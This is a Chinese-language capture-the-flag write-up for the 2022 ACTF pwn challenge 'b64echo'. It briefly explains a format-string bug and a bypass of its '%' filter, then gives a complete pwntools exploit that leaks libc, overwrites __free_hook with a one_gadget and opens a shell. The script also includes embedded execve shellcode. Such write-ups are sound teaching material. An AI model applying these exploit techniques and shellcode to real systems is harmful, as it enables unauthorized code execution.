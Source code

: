 ```yaml
---
title: 2022 ACTF 部分pwn Writeup
date: 2022-06-25 16:54:59 +0800
categories:
  - ctf比赛
tags:
  - pwn
  - ctf
permalink: /posts/id=27/
pin: false
published:
---
```


## b64echo

![image-20220625174651216](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220625174651216.png)

题目开辟了一个堆块记录一些基值，实现base64解密，漏洞点在格式化字符串，存在循环的格式化字符串漏洞

![image-20220625174706714](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220625174706714.png)

结束时存在一个free操作，考虑用格式化字符串泄露地址，同时修改free_hook为one_gadget

![image-20220625174748511](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220625174748511.png)

难点在于会检验解密后的字符串中是否有`%`，一旦检验到`%`就exit，但并没有对字符串最后一个字符进行校验，导致`%`可以出现在末尾，通过多次输入实现最后需要的payload。

![image-20220625175007793](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220625175007793.png)

```python
# _*_ coding:utf-8 _*_
from pwn import *
import os
import base64
context.log_level = 'debug'
context.arch='amd64'
p = process('./b64echo')
p = remote("121.36.255.51","9999")
elf = ELF("b64echo")
libc = elf.libc
#elf=ELF('./pwn')

def dbg():
    gdb.attach(p)

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

def decode(con):
    length = len(con)
    sla("Tell me the length of your base64 input: ",length)
    # dbg()
    p.send(con)

def decode1(con):
    length = len(con)
    sla("Tell me the length of your base64 input: ",length)
    dbg()
    p.send(con)

# ---------------------------------
print p.recv()
aaa = raw_input()
p.send(aaa)

decode(base64.b64encode(' 81$p'))
decode('JQ==')

libc_base = int(p.recv(14),16)-0x21C87
lg('libc_base')
one = libc_base + 0x10a2fc
free_hook = libc_base + libc.sym['__free_hook']
exit_hook = 0x61bf60+libc_base
lg('one')
lg('free_hook')

#---------------------------------------------
onel = one&0xffff
oneh = (one>>16)&0xffff
onem = (one>>32)&0xffff
lg('onel')
lg('oneh')
lg('onem')
print len(str(onel))
print len(str(oneh))

pl1 = '%'
pl2 = len(pl1)*'\x00'+str(onel)+'c%'
pl3 = len(pl2)*'\x00'+'50$hn%'
pl4 = len(pl3)*'\x00'+str(oneh-onel)+'c%'
pl5 = len(pl4)*'\x00'+'51$hn'
pl5 = pl5.ljust(0x20,'x')+p64(free_hook)+p64(free_hook+2)


# sleep(0.1)
decode(base64.b64encode((len(str(onem))+3)*' '+'17$hnxhh')+p64(free_hook+4))# 
decode(base64.b64encode(' '+str(onem)+'c'+'%'))
decode(base64.b64encode('%'))


decode(base64.b64encode(pl5))
decode(base64.b64encode(pl4))
decode(base64.b64encode(pl3))
decode(base64.b64encode(pl2))
decode(base64.b64encode(pl1))

p.interactive()

'''
0x4f2a5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f302 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a2fc execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
'''
```

![image-20220625174610057](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220625174610057.png)